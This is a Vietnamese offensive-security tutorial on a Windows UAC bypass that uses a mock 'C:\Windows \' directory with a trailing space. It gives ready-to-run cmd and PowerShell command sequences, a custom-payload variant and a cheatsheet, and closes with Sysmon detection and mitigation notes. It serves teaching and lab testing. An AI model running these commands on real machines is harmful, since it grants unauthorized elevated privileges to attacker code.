

> **Prerequisites**: [[07-dll-hijack-systemproperties|07. DLL Hijack — SystemPropertiesAdvanced]] · [[08-ifileoperation-dll-hijack|08. IFileOperation]]
> **Objectives**:
> - Hiểu Windows path validation flaw với trailing space
> - Tạo mock trusted directory `C:\Windows \` để bypass path check
> - Copy binary vào mock directory và khai thác auto-elevation logic
> - Nắm giới hạn và điều kiện cụ thể của technique này

---

## Điều kiện khai thác

> [!note] Điều kiện bắt buộc
> - User trong local Administrators group
> - Hệ thống **chưa patch** (technique đã được MS giải quyết một phần trong updates sau 2019)
> - Windows 10 build cụ thể (test trước khi dùng trong lab — không work on fully patched Win11)
> - Cần tạo được directory với tên có trailing space

> [!warning] Compatibility
> Đây là technique **partially patched** — hoạt động trên unpatched/older Win10 builds, nhưng có thể bị block trên fully patched Win11. Vẫn có giá trị học vì cơ chế rất instructive về Windows path parsing bugs.

---

## Cơ chế tấn công

### Path Validation Bug — Trailing Space

AppInfo service kiểm tra path của binary để xác định có phải trusted directory không:

```text
Trusted directories:
C:\Windows\
C:\Windows\System32\
C:\Program Files\
...
```

Bug: AppInfo service normalize path để so sánh bằng cách **trim trailing spaces**. Do đó:

```text
C:\Windows \  →  sau trim  →  C:\Windows\   ✓  (được coi là trusted!)
```

Nhưng Win32 filesystem API lại **không trim** trailing space — `C:\Windows \` và `C:\Windows\` là hai directory **hoàn toàn khác nhau** trên filesystem.

Attacker tạo directory `C:\Windows \System32\` (với space sau "Windows"), copy signed Microsoft binary vào đó, sửa binary để load payload. AppInfo thấy path "looks like System32" → auto-elevate, nhưng binary thực sự chạy là của attacker.

### Tại sao cần `\\?\` prefix?

Windows API mặc định normalize path, bao gồm việc strip trailing spaces. Để tạo directory với trailing space, cần dùng **extended-length path syntax** `\\?\` để bypass normalization:

```cmd
mkdir "\\?\C:\Windows \"
mkdir "\\?\C:\Windows \System32"
```

### Flow đầy đủ

```text
Attacker (Medium Integrity)
    ↓ mkdir "\\?\C:\Windows \System32\"
    ↓ Copy mmc.exe (real, signed) vào C:\Windows \System32\
    ↓ Tạo symlink: C:\testbypass.exe → C:\Windows \System32\mmc.exe
    ↓ Chạy C:\testbypass.exe
        ↓ AppInfo: path = C:\Windows \System32\mmc.exe
        ↓ Trim trailing space → C:\Windows\System32\mmc.exe → TRUSTED!
        ↓ Auto-elevate
        ↓ Nhưng binary thực thi là từ C:\Windows \ (mock)
→ Attacker-controlled mmc.exe chạy ở High Integrity
```

---

## Quy trình tấn công

**Môi trường giả định**: Medium Integrity shell, Windows 10 unpatched.

### Bước 1 — Tạo mock directory structure

```cmd
mkdir "\\?\C:\Windows \System32"
```

> **Expected output**: Directory tạo thành công. Verify: `dir C:\ | findstr "Windows "`

### Bước 2 — Copy real signed binary vào mock dir

```cmd
copy "C:\Windows\System32\mmc.exe" "\\?\C:\Windows \System32\mmc.exe"
```

> **Expected output**: `1 file(s) copied.`

### Bước 3 — Tạo symlink trỏ vào mock binary

```cmd
mklink c:\testbypass.exe "\\?\C:\Windows \System32\mmc.exe"
```

> **Expected output**: `symbolic link created for c:\testbypass.exe <<===>> \\?\C:\Windows \System32\mmc.exe`

### Bước 4 — Trigger via symlink

```cmd
c:\testbypass.exe
```

> **Expected output trên patched system**: Không tự elevate — MMC mở bình thường ở Medium.
> **Expected output trên vulnerable system**: MMC mở ở High Integrity.

### Bước 5 — Cleanup

```cmd
del "c:\testbypass.exe"
rd "\\?\C:\Windows \" /S /Q
```

### PowerShell version

```powershell
# Create mock dirs
New-Item -ItemType Directory -Path "\\?\C:\Windows \System32\" -Force

# Copy real signed binary
Copy-Item "C:\Windows\System32\mmc.exe" "\\?\C:\Windows \System32\mmc.exe"

# Create symlink
$null = cmd /c 'mklink C:\testbypass.exe "\\?\C:\Windows \System32\mmc.exe"'

# Test
Start-Process "C:\testbypass.exe"
Start-Sleep 3

# Cleanup
Remove-Item "C:\testbypass.exe" -Force -ErrorAction SilentlyContinue
cmd /c 'rd "\\?\C:\Windows \" /S /Q'
```

### Atomic Red Team test

```powershell
# Reproduce Atomic Red Team T1548.002 test case
$executable_binary = "C:\Windows\System32\mmc.exe"

mkdir "\\?\C:\Windows \System32\"
copy $executable_binary "\\?\C:\Windows \System32\mmc.exe"
mklink c:\testbypass.exe "\\?\C:\Windows \System32\mmc.exe"

# Check if directory structure exists
if (Test-Path "\\?\C:\Windows \System32\") {
    Write-Output "[!] Mock directory created — system may be vulnerable"
} else {
    Write-Output "[-] Failed to create mock directory — likely patched"
}

# Cleanup
rd "\\?\C:\Windows \" /S /Q >nul 2>nul
del "c:\testbypass.exe" >nul 2>nul
```

---

## Biến thể & Bypass

### Dùng với payload thay vì mmc.exe

Thay vì mmc.exe (không có payload), thay thế bằng custom binary:

```cmd
mkdir "\\?\C:\Windows \System32"
copy "C:\Temp\payload.exe" "\\?\C:\Windows \System32\payload.exe"
mklink "C:\bypass.exe" "\\?\C:\Windows \System32\payload.exe"
C:\bypass.exe
rd "\\?\C:\Windows \" /S /Q
del C:\bypass.exe
```

> [!warning] Custom binary không có signature
> Payload không có Microsoft signature — AppInfo thực ra kiểm tra cả signature. Technique hoạt động tốt nhất với binary đã được signed (copy từ System32 thật rồi patch) hoặc trên hệ thống không enforce signature check nghiêm ngặt.

### %AppData% path variant

Một số research cho thấy `%AppData%\Microsoft\WindowsApps` cũng có thể bị exploit tương tự trong specific conditions.

---

## Cây quyết định



---

## Command Cheatsheet

**Kiểm tra vulnerability**

```cmd
mkdir "\\?\C:\Windows \" && echo VULNERABLE || echo PATCHED
rd "\\?\C:\Windows \" /S /Q
```

**Full attack**

```cmd
mkdir "\\?\C:\Windows \System32"
copy "C:\Windows\System32\mmc.exe" "\\?\C:\Windows \System32\mmc.exe"
mklink c:\testbypass.exe "\\?\C:\Windows \System32\mmc.exe"
c:\testbypass.exe
```

**Cleanup**

```cmd
del "c:\testbypass.exe" >nul 2>nul
rd "\\?\C:\Windows \" /S /Q >nul 2>nul
```

**PowerShell test**

```powershell
# Quick vulnerability check
try {
    New-Item -ItemType Directory -Path "\\?\C:\Windows \" -Force | Out-Null
    Write-Output "[!] VULNERABLE — mock directory creation succeeded"
    Remove-Item "\\?\C:\Windows \" -Force -Recurse
} catch {
    Write-Output "[-] Patched — cannot create mock directory"
}
```

---

## Daily Drill

**Thời gian**: 10 phút/ngày trong 3 ngày.

**Drill 1 — Nhớ extended-length path syntax**
Mục tiêu: nhớ `\\?\` prefix và tại sao cần nó.

```cmd
mkdir "\\?\C:\Windows \System32"
```

Luyện cho đến khi: nhớ `\\?\` prefix và hiểu tại sao không dùng được `mkdir "C:\Windows \"` thông thường.

**Drill 2 — Vulnerability check one-liner**
Mục tiêu: nhớ lệnh kiểm tra nhanh.

```cmd
mkdir "\\?\C:\Windows \" && echo VULNERABLE || echo PATCHED && rd "\\?\C:\Windows \" /S /Q
```

Luyện cho đến khi: gõ check + cleanup trong một lần.

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **Directory creation**: `C:\Windows ` (với trailing space) là cực kỳ suspicious
> - Sysmon Event ID 11: `TargetFilename: C:\Windows \*`
>
> **Process**: Binary chạy từ `C:\Windows \` (mock path) được elevate
> - Sysmon Event ID 1: `Image: C:\Windows \System32\*` — note the trailing space
>
> **Symlink**: Tạo symlink trỏ từ common location vào `C:\Windows \`
> - Sysmon Event ID 23: Symbolic link events

> [!note] Mitigation
> - Áp dụng Windows security patches — MS đã address một phần vulnerability này
> - Monitor process creation từ path `C:\Windows \` (với space)
> - Sysmon: alert khi thấy directory creation với trailing space

---

## Lab Thực hành

| Platform | Machine | Tại sao phù hợp |
|----------|---------|----------------|
| Local VM | Windows 10 1903–1909 (unpatched) | Verify technique hoạt động trên vulnerable build |
| Local VM | Windows 10 2004+ | Verify technique bị block — hiểu scope |
| HTB | Bất kỳ Windows box older build | Test trong context real box |
| Atomic Red Team | Local Lab | T1548.002 test case chính xác cho technique này |

---

## Field Manual Entry

> [!abstract] Mock Trusted Directory (Trailing Space) UAC Bypass
> **Điều kiện**: User trong Admins, Windows 10 unpatched older builds
> **Cơ chế**: `C:\Windows \` (với space) bypass AppInfo path check vì trailing space trimming
> **Quick test**:
> ```cmd
> mkdir "\\?\C:\Windows \" && echo VULNERABLE && rd "\\?\C:\Windows \" /S /Q
> ```
> **Full flow**:
> ```cmd
> mkdir "\\?\C:\Windows \System32"
> copy C:\Windows\System32\mmc.exe "\\?\C:\Windows \System32\mmc.exe"
> mklink c:\testbypass.exe "\\?\C:\Windows \System32\mmc.exe"
> c:\testbypass.exe
> ```
> **Note**: Partially patched — test trước khi rely on trong engagement
> **Ref**: [[09-mock-trusted-directories|09. Mock Trusted Directories]]
